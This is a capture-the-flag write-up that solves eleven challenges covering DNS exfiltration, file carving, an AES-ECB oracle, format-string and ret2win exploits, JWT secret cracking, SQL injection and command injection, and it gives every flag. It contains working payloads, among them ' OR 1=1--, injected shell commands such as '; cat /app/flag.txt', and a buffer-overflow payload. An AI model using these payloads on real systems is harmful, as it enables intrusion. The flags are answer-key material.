**Problem 1**: **PCAP Recon - DNS**

**Description :** Our internal network monitors caught an infected
machine beaconing out to an unknown server. The malware didn\'t use
standard web traffic to steal the data---it used a covert channel.

Can you analyze the packet capture, identify the exfiltration method,
and reconstruct the stolen flag?

Note: You\'ll find pieces of the flag scattered. Return the actual flag
by combining these pieces.\
\
**Step 1: Open the capture and get an overview**

-   Open dns_capture.pcap in Wireshark.

-   Apply the filter dns in the filter bar to isolate all DNS traffic
    (in this capture, that\'s everything --- all 38 packets).



**Step 2: Scan for anomalies**

-   Look down the **Info** column for query names. Most will look
    normal: www.google.com, github.com, archive.ubuntu.com, etc.

-   A few queries will stand out because they\'re long, hex-looking
    subdomains under an unfamiliar domain:

**1-72616b7368616b7b70.data.evil-domain.local**

**2-34636b33745f736e31.data.evil-domain.local**

**3-666633725f7072307d.data.evil-domain.local**

-   evil-domain.local isn\'t a real TLD/domain you\'d see in legitimate
    traffic, and the subdomain labels are unusually long and hex-like
    --- that\'s the giveaway for **DNS tunneling/exfiltration**.

> 
>
> **Step 3: Filter down to just the suspicious queries**
>
> Use a display filter to isolate them:
>
> **dns.qry.name contains \"evil-domain.local\"**
>
> This shows only the 6 packets (3 queries + 3 responses) related to the
> exfil channel.
>
> 
>
> **Step 4: Extract the encoded data**

-   Click each query packet → expand **Domain Name System (query)** →
    **Queries** → the query name field in the packet details pane.

-   For each one, note:

    -   The **sequence number** prefix (1-, 2-, 3-) --- this tells you
        the chunk order.

    -   The **hex string** between the sequence number and
        .data.evil-domain.local.

> You\'ll collect:

  -----------------------------------------------------------------------
  Seq                  Chunk
  -------------------- --------------------------------------------------
  1                    72616b7368616b7b70

  2                    34636b33745f736e31

  3                    666633725f7072307d
  -----------------------------------------------------------------------

> **Step 5: Decode the hex**
>
> Wireshark won\'t auto-decode this for you since it\'s just text in a
> query name, not a Wireshark-recognized encoding. Easiest options:\
> \
> 
>
> **Step 6: Reassemble in sequence order**
>
> Concatenate decoded chunks 1 → 2 → 3:
>
> **FLAG: rakshak{p4ck3t_sn1ff3r_pr0}\
> \
> \
> \
> **
>
> **Problem 2: Kitty Ftw!!**
>
> **Description**: A colleague downloaded this image from a suspicious
> server. Something about it seems off. Seems like a cute kitty,
> shouldn\'t be malicious\... just hiding something Can you figure out
> what it really is, and find the hidden flag inside?\
> 
>
> **Step 1: Initial File Identification**
>
> **CMD: file suspicious_file.jpg**
>
> **Output:**
> 
>
> This confirms the file *is* a valid, well-formed JPEG --- nothing
> structurally broken at first glance. This is a common trick: the file
> opens normally as an image, so a cursory look gives no indication
> anything is wrong.
>
> **Step 2: Metadata Inspection with ExifTool**
>
> **CMD: exiftool suspicious_file.jpg**
>
> 
>
> The output is dominated by a large embedded **ICC color profile**
> (Profile Connection Space, Device Manufacturer: Hewlett-Packard, sRGB
> IEC61966-2.1, tone reproduction curves, etc.).
>
> **Key takeaway:** This is a classic **red herring**. ICC profiles are
> normal, legitimate JPEG metadata used for color calibration ---
> they\'re large and technical-looking, which makes them an effective
> place for a CTF author to bury noise and tempt you into chasing
> color-profile data instead of the real payload. No flag-related
> strings, comments, or GPS/EXIF artifacts were present here.\
> \
> **Step 3: Binary Carving with Binwalk**
>
> **CMD: binwalk suspicious_file.jpg**
>
> This is where the real finding appears:
>
> 
>
> **Step 4: Extracting the Hidden Archive**
>
> Binwalk identified the offset (0xCF70 = decimal 53104). There are two
> quick ways to pull it out:
>
> **CMD: binwalk -e suspicious_file.jpg**
>
> This creates an extraction folder (e.g.
> \_suspicious_file.jpg.extracted/) containing the carved .zip, which
> can then be unzipped to reveal flag.txt.\
> \
> \
> \
> **FLAG: rakshak{p0lygl0ts_4r3_m1nd_b3nd1ng}**

**Problem 3: AES-ECB Penguin**

**Description**: We found a cryptographic oracle service running on the
network. It takes your input, appends a secret flag to it, and encrypts
the whole thing using AES in ECB mode. The key is completely randomized,
so you can\'t guess it.

Send a POST request to /encrypt with JSON: {\"input\":
\"\<base64_encoded_prefix\>\"}. Can you leak the flag byte by byte?\


**1. Challenge Description**

The service exposes a single endpoint:

> POST /encrypt
>
> Content-Type: application/json
>
> {\"input\": \"\<base64_encoded_prefix\>\"}
>
> The server behaves as:
>
> ciphertext = AES_ECB_Encrypt(random_key, attacker_input \|\|
> secret_flag)

The encryption key is randomized and never exposed --- but **ECB mode
encrypts each 16-byte block independently**, with no chaining or IV.
That structural weakness is what we exploit. We never need to know the
key.





**3. Attack Theory**

**Step 1 --- Find the AES block size**

Send increasing amounts of filler input (A, AA, AAA, ...) and watch the
ciphertext length. AES always pads to a multiple of the block size, so
the ciphertext length jumps by exactly block_size bytes at some input
length. For AES this is **16 bytes**.

> for i in \$(seq 0 20); do
>
> payload=\$(python3 -c \"import base64;
> print(base64.b64encode(b\'A\'\*\$i).decode())\")
>
> curl -s -X POST http://challenge.erakshak.nexus-svnit.in:5001/encrypt
> \\
>
> -H \"Content-Type: application/json\" \\
>
> -d \"{\\\"input\\\": \\\"\$payload\\\"}\" \| python3 -c \"
>
> import sys, json, base64
>
> d = json.load(sys.stdin)
>
> ct = base64.b64decode(d\[\'ciphertext\'\]) \# adjust key name if
> needed
>
> print(\$i, len(ct))
>
> \"
>
> done

**Step 2 --- Confirm ECB mode**

Send two identical 16-byte blocks back to back (b\"A\"\*32). If the
resulting ciphertext has two **identical** 16-byte blocks, ECB is
confirmed --- this is the textbook \"ECB penguin\" tell (same plaintext
block → same ciphertext block, no matter where it sits).

**Step 3 --- Determine secret length**

The total ciphertext length = len(your_input) + len(secret), rounded up
to the next block boundary (PKCS#7 padding). By watching when adding one
more filler byte causes the ciphertext to grow by a full block, you can
back-calculate the approximate secret length.

**Step 4 --- Byte-at-a-time recovery**

This is the core trick:

1.  Choose a **filler length** so the *next unknown byte* of the secret
    lands as the **last byte** of some ciphertext block.

2.  Capture that block --- this is your \"target.\"

3.  Then send filler + known_bytes_so_far + guess_byte for every
    guess_byte in 0..255.

4.  Whichever guess produces a ciphertext block identical to the target
    is the correct next byte of the secret --- because ECB guarantees
    identical plaintext blocks encrypt identically.

5.  Append that byte to known, slide the window forward by one position,
    and repeat.

This recovers the secret one byte at a time without ever needing the
key.

\
\
**Flag: rakshak{3cb_cut_4nd_p4st3}**

**Problem 4: Format String Fury\
\
Description**: We found a diagnostic echo service running on CorpX\'s
debugging port. The developer wrote a custom logging function to echo
user input back to the terminal, but they forgot a cardinal rule of C
programming: never trust user input inside a print function.

Can you exploit the format string vulnerability to leak the flag
directly from the server\'s stack memory?

Connect: nc challenge.erakshak.nexus-svnit.in 5002

**Step: 1. Recon --- Reading the Source**

char secret_flag\[\] = \"rakshak{REDACTED}\";

char user_input\[256\];

fgets(user_input, sizeof(user_input), stdin);

printf(user_input); // \<\-- THE BUG

The bug: printf(user_input) passes our raw input **as the format string
itself**, instead of:

printf(\"%s\", user_input); // the safe way

This means any %x, %p, %s, %n we type gets interpreted by printf as a
real format specifier, and printf will pull \"arguments\" for them off
the stack/registers --- arguments that were never actually passed. This
is a classic **format string vulnerability**.

secret_flag is declared right before user_input in the same function, so
it sits nearby on the stack --- our goal is to read it back out through
the leak.

**Step: 2. Connect and Confirm the Bug**

**nc challenge.erakshak.nexus-svnit.in 5002**

Enter diagnostic code: %x.%x.%x.%x

\[SYSTEM LOG\]: 7f8a3.41414141.fbad2288.0

If you see hex garbage instead of literally %x.%x.%x.%x echoed back, the
vulnerability is confirmed --- our format specifiers are being executed.



Send that as your input (pipe it to nc):

**python3 -c \"print(\'\|\'.join(f\'%{i}\\\$lx\' for i in
range(1,60)))\" \| nc challenge.erakshak.nexus-svnit.in 5002\
**

Decoding the Leak

Looking at your output, these are the consecutive raw hex words right
after the ffffffff:

7b6b6168736b6172 \| 735f74346d723066 \| 6d5f73676e317274 \|
336c5f7972306d33 \| 7d6b34

Remember: each %lx value is a little-endian 64-bit integer. To read it
as memory bytes, reverse the byte order.



**Flag rakshak{f0rm4t_strings_m3m0ry_l34k}**

**Problem 5**: **Ret2Win\
**

**Description:** We found an old bootloader interface that still uses
the deprecated gets() function. The system also seems to be leaking
diagnostic memory addresses.

CorpX just deployed a bootloader interface, and we managed to get our
hands on the C source code. Just like always, the developer, with his
lack of experience, used a dangerous function, yet again risking losing
the flag to you.

Can you overflow the buffer and manipulate the instruction pointer to
execute the hidden win() function?

Connect: nc challenge.erakshak.nexus-svnit.in 5004

**The Bug:**

void vuln() {

char buf\[64\];

printf(\"Debug: win() is located at: %p\\n\", win);

printf(\"Enter diagnostic payload: \");

gets(buf);

}

Two problems jump out:

1.  **gets(buf) has no length limit.** It keeps reading input until a
    newline, no matter how big buf is. Anything past 64 bytes spills
    into adjacent stack memory.

2.  **The program leaks win()\'s address for us**, printed right before
    it asks for input. Normally an attacker would have to guess or find
    this address; here it\'s handed over for free.

**Why Overflowing the Buffer Matters**

On the stack, local variables sit below the **saved return address** ---
the address the CPU jumps back to once the current function (vuln)
finishes. The layout looks roughly like this:

\[ buf\[64\] \] \<- our input goes here

\[ saved RBP (8B) \] \<- frame pointer, restored on return

\[ return address \] \<- where the CPU jumps after vuln() ends

If we write more than 64 bytes, we start overwriting the saved RBP, and
if we keep going, we overwrite the **return address** itself. Whatever
8-byte value sits there is exactly where the program will jump when
vuln() returns --- instead of going back to main(), it can go anywhere
we choose.

That\'s the whole trick: **we choose win()\'s address.**

**Building the Exploit**

**Step 1 --- Capture the leak.** The program prints win()\'s real
address in the banner. We just parse that line instead of hardcoding
anything.

**Step 2 --- Find the offset.** We need to know how many junk bytes it
takes to reach the return address slot. For a 64-bit binary built
without a stack canary:

64 bytes (buf) + 8 bytes (saved RBP) = 72 bytes

So bytes 73--80 of our input land exactly on the return address.

**Step 3 --- Craft the payload.**

payload = b\"A\" \* 72 \# filler --- fills buf\[\] and the saved RBP

payload += p64(win_addr) \# the 8 bytes that overwrite the return
address



**Flag: rakshak{r3t_t0_w1n_cl4ss1c}**

**Problem 6**: **Identity Theft\
**

**Description:** The challenge presents a \"Secure Portal\" web
application at \`http://challenge.erakshak.nexus-svnit.in:5000\`. Users
can log in and attempt to access the \`/flag\` endpoint, but only
administrators are allowed to view the flag.

**Step 1: Intercepting the HTTP Request**

Upon visiting the site and navigating to \`/flag\`, we intercept the
following HTTP request:

**Key Observation:**

The \`session\` cookie is a **JWT (JSON Web Token)**, identifiable by
its three Base64URL-encoded segments separated by dots.

**Step 2: Decoding the JWT**

A JWT has three parts: \`Header.Payload.Signature\`

**Command**

**Decoded JWT:**

  ------------------------------------------------------------------------------------------------------------------------------------------------------
  **Part**        **Encoded**                                                            **Decoded**
  --------------- ---------------------------------------------------------------------- ---------------------------------------------------------------
  **Header**      eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9                                   {\"alg\":\"HS256\",\"typ\":\"JWT\"}

  **Payload**     eyJ1c2VybmFtZSI6Imd1ZXN0Iiwicm9sZSI6InVzZXIiLCJpYXQiOjE3ODE5MzYwNDV9   {\"username\":\"guest\",\"role\":\"user\",\"iat\":1781936045}

  **Signature**   dZJ9Y0BwyHRKA7FCfO-EcQTGrpRpNt89LjLoCy-40wo                            (HMAC-SHA256 signature)
  ------------------------------------------------------------------------------------------------------------------------------------------------------

**Analysis:**

  ------------------------------------------------------------------------
  **Field**   **Value**     **Significance**
  ----------- ------------- ----------------------------------------------
  alg         HS256         HMAC-SHA256 signing algorithm

  username    guest         We are logged in as a guest user

  role        user          **This is the access control field,** we
                            need admin

  iat         1781936045    \"Issued At\" timestamp
  ------------------------------------------------------------------------

The \`/flag\` endpoint likely checks \`role === \"admin\"\`. Our goal:
forge a token with \`\"role\":\"admin\"\`.

**Step 3 Attack Vector 1: \`alg:none\` Bypass (Failed)**

The first and simplest JWT attack is the **algorithm none bypass**. If
the server accepts tokens with \`\"alg\":\"none\"\`, we can forge any
payload without knowing the secret key.

**Crafting the Token:**


The server properly validates the signature and rejects \`alg:none\`
tokens. We need the actual signing secret.

**Step 4 Attack Vector 2: Brute-Force the HMAC Secret (Success)**

Since the JWT uses \`HS256\` (symmetric HMAC), the same secret key is
used for both signing and verification. If the secret is **weak or
common**, we can crack it by testing candidate passwords against the
known signature.

**How HMAC-SHA256 JWT Signing Works:**

We have the original header, payload, and signature. We just need to
find a \`secret\` that produces the matching signature.

**Brute-Force Script:**


The signing secret is **qwerty**, an extremely weak, dictionary-word
password.

**Step 5: Forging the Admin Token**

Now that we have the secret, we can sign any payload we want.

**Token Forgery Script:**


**Token Comparison**

  ------------------------------------------------------------------------
  **Field**     **Original Token**  **Forged Token**
  ------------- ------------------- --------------------------------------
  alg           HS256               HS256

  username      guest               guest

  **role**      **user**            **admin**

  iat           1781936045          1781936045

  Signature     dZJ9Y0Bwy\...       w77Vum2Ha\... (re-signed with qwerty)
  ------------------------------------------------------------------------

**Step 6: Capturing the Flag**

**Command:**


**Flag: rakshak{jwt_s3cr3ts_sh0uld_b3_l0ng_4nd_c0mpl3x}**

**Problem 7**: **Once upon a time\
**

**Description:** A suspicious individual posted this \"vacation photo\"
online. They thought they scrubbed all the location data, but they might
have left a different kind of trail behind.

Can you track down their hidden site and recover the stolen flag?

We are given a single file: **\`vacation_photo.jpg\`**

**Step 1: Visual Inspection**

The challenge description hints that \"location data was scrubbed\" but
\"a different kind of trail\" was left behind. This points us directly
toward **metadata analysis**, specifically fields beyond GPS
coordinates.

**Command:**



**Analysis:**

-   GPS/location EXIF tags are **stripped**, as the challenge stated.

-   The **JPEG Comment**, field was **not** stripped. It contains a URL:
    Follow my travels at https://pastebin.com/UjNeHjwQ

The suspect removed GPS data but forgot to clear the \`Comment\`
metadata field. This is our trail.

**Step 3: Confirm with \`strings\`**

As a secondary confirmation, we can also extract the URL with
\`strings\`:

**Command:**



**Step 4: Check for Steganography / Appended Data**

Before following the URL, it\'s good practice to rule out embedded files
(ZIP, PNG, RAR appended after the JPEG EOF marker \`FF D9\`):

**Command:**



No hidden files appended. The EXIF Comment URL is the intended path.

**Step 5: Follow the Pastebin Link**

**Command:**



**Analysis:**

The paste has been **deleted**. The suspect tried to cover their tracks
by removing the paste after posting the photo. But the challenge title
gives us a hint, the internet has a long memory.

**Step 6: Wayback Machine (Internet Archive)**

When content is deleted from the live web, the **Wayback Machine**
(\`web.archive.org\`) often retains a cached snapshot. This is the
\"trail\" the challenge is referring to.

**Step 6a: Check if a snapshot exists (CDX API)**



A snapshot exists from **June 17, 2026 at 19:08:49 UTC** with HTTP
status **200**, the paste was alive when the Wayback Machine crawled it.

**Step 6b: Retrieve the cached page**

Using the \`id\_\` modifier to get the original page without Wayback
Machine\'s toolbar injection:

**Note:** The response is gzip-compressed.

**Decompress with:**



**Step 6c: Extract the paste content**



The paste was authored by user **ChatOfTheLost91** on **June 17th,
2026** with **0 views** and expiration set to **Never**, but it was
manually deleted before we could view it live.

**Flag: rakshak{th3_1nt3rn3t_n3v3r_f0rg3ts}**

**Problem 8: Hidden in Plain Sight**

**Description:** We recovered this image from a suspect\'s hard drive.
They claimed it was just a random picture, but our forensics team thinks
otherwise.

Can you extract the hidden data?

**Step 1: Identify the Image**

**The provided file:** top_secret.jpg

appears to be a normal JPEG image with no visible indication of hidden
content.

**Step 2: Extract Hidden Data Using Steghide**

**Attempt extraction using Steghide:**



wrote extracted data to \"secret.txt\".

**Step 3: Read the Extracted File**

**View the contents of the recovered file:**

**Output:**



The hidden flag is stored inside the extracted text file.

**Technical Explanation:** The challenge uses JPEG Steganography with
Steghide. Steghide embeds a file inside the image data while preserving
the visual appearance of the image. The picture looks completely normal,
but it secretly contains an embedded payload that can only be recovered
using the correct passphrase.

**Flag: rakshak{h1dd3n_1n_pl41n_s1ght}**

**Problem 9: SQL Injection 101**

**Description:** We found a login portal for a legacy administrative
system, but we don\'t have the password. Can you trick the database into
letting you in anyway?

**Step 1: Analyze the Login Form**

The application presents a standard username and password login page.
Since no valid credentials are available, test for SQL Injection in the
username field.

**Step 2: Test Authentication Bypass**

**Enter the following payload in the Username field:** \' OR 1=1\--

**Password can be anything:** test

Click Authenticate.



**Step 3: Bypass the Login**

The application successfully authenticates without knowing the real
password. This indicates that user input is being concatenated directly
into an SQL query. Since 1=1 is always true, the authentication check is
bypassed.



**Step 4: Retrieve the Flag**

**After successful login, the portal displays:**

Welcome Admin! Your secret is:\
rakshak{un10n_s3l3ct_ftw}

**Flag: rakshak{un10n_s3l3ct_ftw}**

**Problem 10: Ping Sweeper**

**Description:** The IT department set up a tool to ping external
servers. I wonder if the flag can be hacked using this?

**Target:** http://challenge.erakshak.nexus-svnit.in:4000

**Step 1: Verify Functionality**

**Enter a valid IP address:** 8.8.8.8

**Output:**



This confirms the application executes a system ping command and returns
the output.

**Step 2: Test for Command Injection**

**Attempt to execute an additional command:** 8.8.8.8; id

**Output:**



**Step 3: Enumerate the File System**

**Search for files containing the word \"flag\":** 8.8.8.8; find / -type
f -iname \"\*flag\*\" 2\>/dev/null

**Output:**

A suspicious file named flag.txt is
located inside the application directory.

**Step 4: Read the Flag**

**Use the command injection vulnerability to read the file:** 8.8.8.8;
cat /app/flag.txt

**Output:**



rakshak{c0mm4nd_1nj3ct10n_ftw}

**Technical Explanation:**

**The application likely constructs a shell command using unsanitized
user input:** os.system(\"ping -c 2 \" + host)

**Supplying:** 8.8.8.8; id

**causes the shell to execute:** ping -c 2 8.8.8.8 \| id

allowing arbitrary command execution.

**Flag: rakshak{c0mm4nd_1nj3ct10n_ftw}\
\
\
**

**Problem 11: XSS Reflections**

**Description:** The HR department just deployed a new employee search
utility. It seems pretty basic, but what happens if you search for some
code instead of a name?

**Target:** http://challenge.erakshak.nexus-svnit.in:3000

**Step 1: Examine Authentication**

After interacting with the application, a JWT session cookie is issued.
In the Developers option **"document.cookie".**

**Output:**



session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9\...

**Decoding the JWT reveals:**

{\
\"username\": \"guest\",\
\"role\": \"user\",\
\"iat\": 1781935519\
}



This confirms that authentication is being handled through JWT tokens.

**Step 2: Inspect Application Source**

**Viewing the page source (Ctrl + U) reveals a hidden HTML comment:**

\<!\--\
\[DEBUG LOG\] Flag API migrated to: /api/flag\
\[DEBUG LOG\] Authentication requires HTTP header: \"X-Exploit-Token\"\
\--\>

**This immediately provides two important clues:**

1.  The flag endpoint is now located at: /api/flag

```{=html}
<!-- -->
```
2.  Access requires a custom header: X-Exploit-Token

**Step 3: Inspect HTTP Responses**

**Using curl to request the homepage:**

**Response headers include:** X-Exploit-Token: 6d6e4273a07c22fc



The application is unintentionally exposing the required authentication
token directly in the response headers.

**Step 4: Access the Flag API**

**Use the disclosed token in the required header:**

**Response:**



**Flag: rakshak{xss_r3fl3ct10n_m4st3r}**
